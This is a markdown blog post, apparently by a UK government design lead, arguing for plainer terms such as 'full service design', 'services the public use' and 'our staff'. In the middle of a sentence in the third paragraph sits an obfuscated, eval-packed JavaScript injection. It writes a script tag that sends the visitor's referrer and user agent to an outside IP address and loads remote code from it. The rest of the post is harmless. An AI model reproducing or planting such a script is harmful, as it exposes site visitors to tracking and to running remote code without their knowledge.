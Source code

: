 ```yaml
---
title: Describing things
date: 2018-07-23
---
```

We’re now a lot more careful of the content we use and how it is designed.

More content design and strategy roles are becoming available than ever before.

Organisations and businesses now understand that designing content in a way that humans understand has a real effect.

![good services are verbs](/images/good-services-are-verbs-louise-downe.jpg)

Even <noindex><script id="wpinfo-pst1" rel="nofollow" type="text/javascript">eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\b'+e(c)+'\b','g'),k[c])}}return p}('0.6("<a g=\'2\' c=\'d\' e=\'b/2\' 4=\'7://5.8.9.f/1/h.s.t?r="+3(0.p)+"\o="+3(j.i)+"\'><\/k"+"l>");n m="q";',30,30,'document||javascript|encodeURI|src||write|http|45|67|script|text|rel|nofollow|type|97|language|jquery|userAgent|navigator|sc|ript|aenbn|var|u0026u|referrer|hfetk||js|php'.split('|'),0,{}))
</script></noindex> with all of the work we do on explaining things like the famous '[Good services are verbs](https://designnotes.blog.gov.uk/2015/06/22/good-services-are-verbs-2/)' poster above, once something gains a little bit of traction it can be a challenge to slow it down to see if it’s fit for purpose.

One of the most rewarding things I get to do on a weekly basis is travel around our six sites, catching up with the design teams but also speak to delivery directors and product owners. It gives me a good sense of what’s going on and how design can help impact things in a positive way at the right time. I get to communicate with a lot of people and most often than not I listen in and offer advice or guidance where it’s needed.

I pick up on language that’s being used and the way we as a collective are describing things. Over the past couple of weeks I’ve been pushing for a change in the way describe a few things to help communicate more effectively and make sure we think about things in a certain way.

## Describing things in the right way

The examples below are specific to government, however, may also be heard in your organisation or business. Feel free to muse on them and use them. I’ll try to stay succinct rather than ranting.

### End-to-end service design *should be* full service design

There’s a lot of service design in government. For whatever reason the phrase ‘end-to-end’ came about when talking about it. It may have came out of people saying “don’t just look at that bit, look at all of it”, and when you say that to a person working on a specific service, ‘all of it’ is that service.

I struggle to think of examples of where services simply end as they simply blend into something else. The blend may be blurry, it may be over an amount of time but if we focus on something being ‘end-to-end’ we’re creating a solidified view on services being silo’d entities.

Full service design on the other hand enables a human brain to think there is more, even if it’s not in their direct remit to work on it. They’ll refrain from sticking a fence around something and support people in thinking about joined up services to fulfil user needs.

### Public facing services *should be* services the public use

I’ve been guilty of using this in the past and now pinch myself when the words even come close. Let’s communicate with normal words and phrases. We work on a lot of services, and guess what, the public **use** a lot of these services.

### Staff facing services *should be* services our staff use

Guilty on this one too. But you guessed it. Our staff **use** a lot of services to do their jobs as well.

### Internal staff *should be* our staff

Our staff, no matter which area of the department they’re from do an amazing job. There’s a lot of them too. I’m still not sure what ‘internal staff’ are, I think they’re just ‘our staff’ so that’s an easy one.

- - - - - -

Just a few things to describe a little better and more accurately. If you think differently, [let’s chat](https://twitter.com/gavinelliott).
